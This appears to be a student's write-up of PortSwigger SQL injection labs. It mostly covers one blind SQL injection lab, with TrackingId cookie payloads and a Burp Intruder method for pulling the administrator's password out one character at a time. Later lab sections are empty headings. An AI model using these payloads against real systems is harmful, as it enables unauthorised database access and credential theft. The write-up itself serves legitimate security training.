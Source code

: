 <div align="center">
  <h1>-------------------------- SQLi LABS 002 ---------------------------</h1>
</div>

# [CheatSheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Lab 10: Blind SQL injection with conditional responses [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-exploiting-blind-sql-injection-by-triggering-conditional-responses/sql-injection/blind/lab-conditional-responses#)
- This injection will be used in `Cookie` section in `TrackingID` input field of the page.

```
TrackingId=mCKLbQonMlRUp42B' AND '1'='1;  #Returns 'Welcome Back', This boolean condition means the page is vul to Bilnd SQLi
TrackingId=mCKLbQonMlRUp42B' AND '1'='2; #Doesn't Returns 'Welcome Back' 

TrackingId=mCKLbQonMlRUp42B' AND (SELECT 'a' FROM users LIMIT 1)='a;  #Confirming that there is a table called users
TrackingId=mCKLbQonMlRUp42B' AND (SELECT 'a' FROM users where username='administrator')='a; #confirming that there is a user called administrator

TrackingId=mCKLbQonMlRUp42B' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a #confirming that the password is greater than 1 character in length.
TrackingId=mCKLbQonMlRUp42B' AND (SELECT 'a' FROM users where username='administrator' AND LENGTH(password)>19)='a; #Password is 20 char long
```


### After determining the length of the password, the next step is to `test the character at each position` to determine its value.
- This step involve `Intruder` Module, set the Type: Sniper, Position: $a$, Intruder Setting: Grep-Match 'Welcome Back'
- Injection: `TrackingId=mCKLbQonMlRUp42B' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§;`
- Repeat the same step for every position i.e SUBSTRING(password,2 to 20,1)
- On correct position guessed by payload, it'll flag the `Welcome Back` in result.
- Take the guessed char & note it down.
- ![image](https://github.com/user-attachments/assets/c07e3d8c-e54b-40b1-a268-48a0263e764e)

### Related Concepts: SUBSTRING(string, start_position, length)
```
string: The string from which you want to extract the substring.
start_position: The position in the string to start extracting (1-based index).
length: The number of characters to extract.
```

## Lab 11: Blind SQL injection with conditional errors [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-conditional-errors)


## Lab 11: Visible error-based SQL injection [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-sql-injection-visible-error-based)



## Lab 12: Blind SQL injection with time delays and information retrieval [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-exploiting-blind-sql-injection-by-triggering-time-delays/sql-injection/blind/lab-time-delays-info-retrieval)


